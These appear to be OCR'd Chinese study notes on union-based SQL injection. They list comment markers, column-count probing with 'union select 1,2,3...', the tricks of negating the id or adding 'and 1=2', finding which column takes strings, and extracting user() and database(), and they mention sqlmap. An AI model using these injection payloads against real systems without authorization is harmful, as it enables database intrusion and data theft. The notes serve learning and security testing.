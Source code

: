 --+

-- -

//

/\*\*/

php:\#:%23

union联合查询：跨表查询

select col1,col2,col3 from stuinfo

union

select c1,c2,c3 from teainfo



1.前后表对应列数要相同

判断前表查询列数

union select 1返回错误

union select 1,2错误

union select 1,2,3,4,5返回正常

万能匹配：null

oracle:select null,null from dual

2.如果前表出错，就会返回后表的结果

参数前加负号：-

and 1=2

3.前后表相对应列的数据类型要兼容

字典表：oracle,mysql&gt;5.0 mssql

id=-1 union select '1',2,3,4,5出错

id=-1 union select 1,'2',3,4,5出错

id=-1 union select 1,2,'3',4,5返回正常

第3列为字符类型

判断用户名：

id=-1 union select 1,2,user\(\),4,5

union判断顺序：

判断前表列数：

判断前表哪列为字符类型

判断结果：参数前加负号，and 1=2,字符类型：user\(\) database\(\)

注入工具：sqlmap:python27:
